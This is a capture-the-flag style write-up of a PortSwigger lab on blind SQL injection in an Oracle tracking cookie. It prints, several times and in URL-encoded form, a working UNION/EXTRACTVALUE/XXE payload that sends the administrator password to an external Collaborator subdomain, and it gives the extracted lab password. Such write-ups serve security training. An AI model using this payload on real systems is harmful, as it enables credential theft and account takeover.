




# Blind SQL Injection with Out-of-Band Data Exfiltration

## Lab Overview

**Level:** PRACTITIONER
**Status:** ✅ Solved
**Objective:** Perform a blind SQL injection attack using out-of-band data exfiltration to extract the administrator password and authenticate as the administrator user.



## Vulnerability Details

The application contains a **blind SQL injection vulnerability** in the tracking cookie used for analytics. The application performs a SQL query containing the value of the submitted cookie asynchronously, with no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

**Key Difference:** Unlike conditional responses or errors, this lab uses **out-of-band data exfiltration** - the SQL injection payload causes the database to make external HTTP/DNS requests to a controlled server (Burp Collaborator), leaking data in the request itself.

**Target:** Tracking cookie (`TrackingId`)
**Injection Point:** Cookie parameter
**Detection Method:** Out-of-band interactions (DNS/HTTP requests to Collaborator server)
**Database:** Oracle (uses DUAL table, EXTRACTVALUE function)
**Technique:** SQL injection combined with XXE (XML External Entity) attack
**Goal:** Extract administrator password via external requests and authenticate

## Solution Steps

### Step 1: Set Up Burp Collaborator

Configure Burp Suite Professional to use Collaborator for capturing out-of-band interactions.

**Burp Collaborator Setup:**
- Open Burp Suite Professional
- Navigate to the "Collaborator" tab
- Click "Copy to clipboard" to get a Collaborator payload (subdomain)

**Collaborator Server:** Default public server (blocked from arbitrary external systems by firewall)

### Step 2: Craft Out-of-Band Payload

Create a payload that combines SQL injection with XXE to exfiltrate the administrator password.

**Payload Structure:**
- SQL injection to break out of the query
- UNION SELECT to inject malicious XML
- EXTRACTVALUE with xmltype to process XML containing XXE
- XXE entity that references external URL containing the password
- Collaborator subdomain in the URL to capture the data

**Base Payload:**
```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">%remote;]>'),'/l')+FROM+dual--
```

**URL-encoded Version:**
```
TrackingId=x%27%2bUNION%2bSELECT%2bEXTRACTVALUE%28xmltype%28%27%3c%3fxml%2bversion%3d%221.0%22%2bencoding%3d%22UTF-8%22%3f%3e%3c%21DOCTYPE%2broot%2b%5b%3c%21ENTITY%2b%25%2bremote%2bSYSTEM%2b%22http%3a%2f%2f%27%7c%7c%28SELECT%2bpassword%2bFROM%2busers%2bWHERE%2busername%3d%27administrator%27%29%7c%7c%27.BURP-COLLABORATOR-SUBDOMAIN%2f%22%3e%25remote%3b%5d%3e%27%29%2c%27%2fl%27%29%2bFROM%2bdual--
```

### Step 3: Insert Collaborator Payload

Use Burp's "Insert Collaborator payload" feature to automatically insert the subdomain.

**Steps:**
1. Intercept the request containing the TrackingId cookie
2. Right-click on the cookie value
3. Select "Insert Collaborator payload"
4. The Collaborator subdomain will be inserted at the indicated position

**Modified Cookie:**
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```



### Step 4: Monitor Collaborator Interactions

Send the request and monitor the Collaborator tab for incoming interactions.

**Polling Process:**
- Send the modified request
- Go to Collaborator tab
- Click "Poll now"
- Wait a few seconds if no interactions appear (asynchronous execution)

**Expected Interactions:**
- DNS lookup for the domain containing the password
- HTTP request to the Collaborator server

**Interaction Details:**
- **DNS:** Full domain name in Description tab
- **HTTP:** Full domain name in Host header of Request to Collaborator tab

The image below shows the Collaborator interactions captured after polling, displaying both DNS and HTTP requests triggered by the XXE payload:



**Captured Password:** The password appears in the subdomain of the interaction (between the single quotes in the payload). From the Collaborator interactions shown in the image, the administrator password is extracted from the DNS/HTTP request domains.

**Extracted Password:** 9ulb8sjvdcp07sjqyu89

### Step 5: Authenticate as Administrator

Using the extracted password to log in as the administrator user.

**Login Credentials:**
- Username: administrator
- Password: 9ulb8sjvdcp07sjqyu89

**Result:** ✅ Successfully authenticated as administrator



## Lab Completion

✅ **Lab Status: SOLVED**

The lab is completed when:
- Successfully craft and send the out-of-band SQL injection payload
- Observe DNS and/or HTTP interactions in Burp Collaborator
- Extract the administrator password from the interaction details
- Authenticate as the administrator user

## Key Commands Used

```sql
-- Out-of-band data exfiltration payload
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">%remote;]>'),'/l')+FROM+dual--
```

## Notes

- **Asynchronous Execution:** SQL query runs in background, no immediate response changes
- **Firewall Restrictions:** Must use Burp Collaborator's default public server
- **XXE Technique:** XML External Entity attack embedded in SQL injection
- **Data Encoding:** Password embedded in domain name for exfiltration
- **Interaction Types:** Both DNS and HTTP requests may be generated
- **Polling:** May need to poll multiple times due to asynchronous nature</content>
<parameter name="filePath">c:\Users\FAIZAN NIAZI\Desktop\Repositories\security-writeups\portswigger\sql-injection\blind-sql-attack\out-of-band-data-exfiltration\blind-sql-injection-out-of-band-data-exfiltration.md